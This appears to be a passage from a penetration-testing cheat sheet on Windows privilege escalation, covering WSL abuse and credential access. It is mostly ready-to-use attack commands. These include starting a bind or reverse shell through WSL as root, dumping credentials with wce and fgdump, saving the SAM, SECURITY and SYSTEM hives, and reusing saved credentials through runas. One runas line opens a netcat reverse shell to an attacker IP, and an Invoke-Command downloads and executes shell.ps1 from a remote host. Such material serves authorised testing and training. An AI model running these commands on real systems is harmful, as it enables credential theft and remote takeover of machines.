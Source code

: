 
## Windows Subsystem for Linux (WSL)

>[!tip]
>With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

```bash
where wsl.exe
where bash.exe

wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the WSL filesystem in the folder: `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## Credentials

>[!tip]
>See also [Dumping Passwords and Credentials](Dumping%20Passwords%20and%20Credentials.md)

```powershell
wce32.exe -w
wce64.exe -w
fgdump.exe

# Can we access SAM and SYSTEM files?
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

reg.exe save hklm\sam c:\sam_backup
reg.exe save hklm\security c:\security_backup
reg.exe save hklm\system c:\system

# Anything interesting in Credential Manager?
cmdkey /list
# If credentials pops out they can be reused through RunAs ...
runas /savecred /user:WORKGROUP\\Administrator "\\\\10.XXX.XXX.XXX\\SHARE\\evil.exe"
runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
# ... net use ...
net use x: \\localhost\c$ /user:administrator 3130438f31186fbaf962f407711faddb
x:
# ... or powershell non interactive RunAs ...
PS C:\inetpub\wwwroot\internal-01\log> $username = "BART\Administrator"
PS C:\inetpub\wwwroot\internal-01\log> $password = "3130438f31186fbaf962f407711faddb"
PS C:\inetpub\wwwroot\internal-01\log> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\inetpub\wwwroot\internal-01\log> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/shell.ps1') } -Credential $cred -Computer localhost
```

[^2]: [Unquoted Service Paths](Unquoted%20Service%20Paths.md)
[^1]: https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps